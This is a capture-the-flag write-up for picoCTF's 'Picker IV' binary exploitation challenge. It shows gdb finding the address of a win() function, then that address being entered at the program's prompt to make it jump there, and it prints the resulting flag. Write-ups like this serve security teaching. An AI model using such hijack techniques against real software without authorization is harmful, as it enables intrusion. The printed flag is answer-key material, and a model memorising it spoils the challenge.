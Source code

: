 # Picker IV

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Binary Exploitation  
**Points:** 100

# Challenge

## Description

Can you figure out how this program works to get the flag?
Connect to the program with netcat:
`$ nc saturn.picoctf.net 54266`
The program's source code can be downloaded [here](./picker-IV.c). The binary can be downloaded [here](./picker-IV).

## Source

[picker-IV.c](./picker-IV.c) (C source)  
[picker-IV](./picker-IV) (64-bit ELF)

# Solution

Here we get a C source code. It asks us for an address, and then treat this address as a function and calls it. We want to invoke the `win()` function, which prints the flag, and to do so, we need to find its address. We can do it using gdb:

```bash
$ gdb ./picker-IV
(gdb) disas win
Dump of assembler code for function win:
   0x000000000040129e <+0>:     endbr64
   0x00000000004012a2 <+4>:     push   rbp
   ...
End of assembler dump.
```

And there it is, the address of the `win()` function is `0x40129e`. Now we can run the program and give it this address:

```bash
$ ./picker-IV
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
Cannot open file.
```

Looks like it works, now let's do it on the server:

```bash
$ nc saturn.picoctf.net 54266
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_01672a61}
```

**The Flag:** `picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_01672a61}`
